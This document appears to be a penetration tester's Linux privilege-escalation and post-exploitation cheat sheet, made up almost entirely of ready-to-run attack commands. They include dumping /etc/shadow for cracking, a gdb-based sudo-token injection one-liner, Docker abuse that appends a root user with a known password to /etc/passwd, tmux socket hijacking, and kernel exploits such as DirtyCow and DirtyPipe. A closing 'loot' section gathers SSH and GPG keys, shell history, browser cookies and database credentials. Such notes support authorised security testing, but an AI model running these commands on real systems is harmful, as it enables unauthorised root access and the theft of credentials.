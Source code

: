 
Hostname `hostname`

## PrivEsc Relevant

##### Users
```bash
cat /etc/passwd
```
##### Hashes
```bash
cat /etc/shadow && cat /etc/security/opasswd
```
`unshadow passwd shadow > unshadowed.txt` 
##### Privileges
```bash
sudo -l
```
Search programs on https://gtfobins.github.io/. Is LD_PRELOAD set?!
##### Working Dir for attack
```bash
find / -writable -type d 2>/dev/null
```
##### SysInfo
```bash
cat /etc/*-release; uname -a
```
##### Files with SUID-Bit set
```bash
find / -perm -u=s -type f 2>/dev/null
```
##### Network interfaces
```bash
ip a
```
##### Gateways
```bash
/sbin/route
```
##### Logged-In Users
```bash
w
```
##### Running processes
```bash
ps aux
```
##### Installed programs
```bash
dpkg -l
```
##### Scheduled tasks
```bash
ls -lah /etc/cron* ; cat /etc/crontab; grep "CRON" /var/log/syslog
```
Are any of those or the scripts within writeable?
##### Sudo injection
This requires a running process with valid sudo token and your uid. But it's easy to test/try.
```bash
echo | sudo -S >/dev/null 2>&1 && cp activate_sudo_token /tmp/ && chmod +x activate_sudo_token && for pid in $(pgrep '^(ash|ksh|csh|dash|bash|zsh|tcsh|sh)$' -u "$(id -u)" | grep -v "^$$\$"); do echo "Injecting process $pid -> "$(cat "/proc/$pid/comm") && echo 'call system("echo | sudo -S /tmp/activate_sudo_token /var/lib/sudo/ts/* >/dev/null 2>&1")' | gdb -q -n -p "$pid" >/dev/null 2>&1; done
```
[Source](https://github.com/nongiach/sudo_inject/blob/master/exploit.sh)
##### Abusing Docker
```bash
docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
```
or
```bash
docker run -it --rm -v $PWD:/mnt bash
echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd # toor:password
```
##### Abusing Tmux
Requires read access to `/tmp/tmux-1000/default`
```bash
export TMUX=/tmp/tmux-1000/default,1234,0 && tmux ls
```
##### Well-Known Kernel Exploits ([Source](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#kernel-exploits))
- Linux Kernel 5.8 < 5.16.11 -> [DirtyPipe](https://www.exploit-db.com/exploits/50808)
- Linux Kernel <= 3.19.0-73.8 -> DirtyCow
	```
	# make dirtycow stable
	echo 0 > /proc/sys/vm/dirty_writeback_centisecs
	g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil # or use https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
	```
- Linux Kernel <= 2.6.36-rc8 -> [RDS](https://www.exploit-db.com/exploits/15285/)
- Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04) -> [Full Nelson](https://www.exploit-db.com/exploits/15704/)
- Linux Kernel 2.6.39 < 3.2.2 -> [Mempodipper](https://www.exploit-db.com/exploits/18411)
## Loot for later
##### GPG
```bash
ls /home/*/.gpg/
```
##### SSH
```bash
ls /home/*/.ssh/
```
##### History files
```bash
cat /home/*/.*_history
```
##### Home folder
```bash
ls -al /home/*/; ls -al /root/
```

```bash
find / -user $(id -un) -type f 2>/dev/null | grep -Ev "^/sys|^/run|^/proc"
```
##### Test for X-Server
```bash
pidof X
```
Is there e.g. a browser we can grab cookies/passwords from?
##### Extract Cookies
```
pasco index.dat
```
##### Firewall settings
```bash
sudo iptables -S
```
##### Listeners/Connections
```bash
netstat -anp
```
##### Git
```bash
find / -name ".git" 2>/dev/null (cd to the directories and do "git config --list" )
```
##### Mounted Volumes
```bash
cat /etc/fstab; mount; /bin/lsblk
```
##### Printers
```bash
lpstat -a
```
##### Drivers
```bash
lsmod
```

```bash
/sbin/modinfo [module]
```
##### If Wordpress:
	Look at `wp-config.php`. It contains hardcoded MySQL credentials


# Findings